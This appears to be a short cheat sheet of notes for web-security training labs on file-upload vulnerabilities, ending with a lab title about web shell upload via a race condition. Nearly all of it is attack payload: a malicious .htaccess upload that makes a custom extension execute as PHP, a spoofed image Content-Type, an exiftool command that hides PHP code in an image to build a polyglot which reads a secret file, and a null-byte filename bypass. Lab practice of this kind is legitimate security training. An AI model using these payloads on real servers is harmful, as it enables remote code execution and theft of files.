 ========================
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .tez 

========================

Content-Type: image/jpeg

========================

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ink.png -o polyglot.php

========================

test.php%00.jpg

========================

Lab: Web shell upload via race condition

========================